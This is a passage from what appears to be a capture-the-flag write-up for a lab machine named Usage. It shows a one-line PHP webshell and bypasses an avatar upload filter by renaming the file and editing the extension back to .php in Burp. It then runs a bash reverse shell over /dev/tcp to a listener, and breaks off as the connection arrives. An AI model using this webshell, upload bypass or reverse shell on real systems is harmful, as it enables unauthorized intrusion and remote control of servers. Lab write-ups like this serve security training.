 I’ll create a simple file named `0xdf.php` with the following PHP webshell as the contents:

```

<?php system($_REQUEST['cmd']); ?>

```

If I try to upload it, it’s rejected:

![image-20240712165320041](/img/image-20240712165320041.png)

I’ll rename it `0xdf.php.jpg`:

![image-20240712165354220](/img/image-20240712165354220.png)

The site seems ok. When I hit “Submit” it says:

![image-20240712165507799](/img/image-20240712165507799.png)

And on refresh, the Avatar is broken:

![image-20240712165523265](/img/image-20240712165523265.png)

I can right-click on that and open it in a new tab, and it shows the broken image, but doesn’t run any code:

![image-20240712165605794](/img/image-20240712165605794.png)

That’s because of the `.jpg` extension.

I’ll turn on Intercept in Burp, and upload it again. When the request reached my proxy, I’ll find the file upload, and edit it back to `.php`:

![image-20240712165820810](/img/image-20240712165820810.png)

Now the page runs commands:

![image-20240712165850810](/img/image-20240712165850810.png)

### Shell

To get a shell, I’ll start `nc` listening on port 443, and then run a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as the command. I’ll need to encode the `&` characters as `%26` so that the browser doesn’t think they are the start of a new parameter, but the rest the browser will encode as necessary:

```

http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

When I submit, there’s a connection at `nc`:
